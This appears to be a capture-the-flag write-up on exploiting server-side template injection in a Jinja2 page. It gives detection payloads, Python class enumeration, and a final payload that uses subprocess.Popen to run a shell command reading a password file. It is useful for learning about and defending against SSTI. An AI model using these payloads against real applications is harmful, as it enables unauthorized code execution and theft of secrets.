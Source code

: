 
--------

After utilizing this polyglot: `${{<%[%'"}}%\.` we identified insecure input handling and potential SSTI.

After testing both inputs, the title input for the webpage seems to be the only one vulnerable using the payload `{{7*7}}`

The payload: `{{7*'7'}}` then shows us its either `Jinja2` or `Twig`

We then use the payload: `{{self.__init__.__globals__.__str__()}}`. To print all the names of the methods modules.

We also use the python MRO to find methods in the module: `global_name.__class__.__mro__`

Helpful Website in designing payloads: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

We used the `__subclasses__()` method to print subclasses of the main method, which includes `subprocess.Popen()`. We got the index of the `subprocess.Popen()` in the `__subclasses__()` directory, via `tr ',' '\n' < ssti.txt | wc -l`. This gave us 414 but indexed at 0 is 413.

We then called the command `{{''.__class__.__mro__[1].__subclasses__()[413](['cat .passwd'], shell=True, stdout=-1).communicate()}}`. This command referenced the base class, then the Resolution order to get the first method, then the subclasses of that method. Then reference the `Popen()` method and passed `(['cat .passwd'], shell=Ture, stdout=-1).communicate()` to execute the function correctly and return the shell command results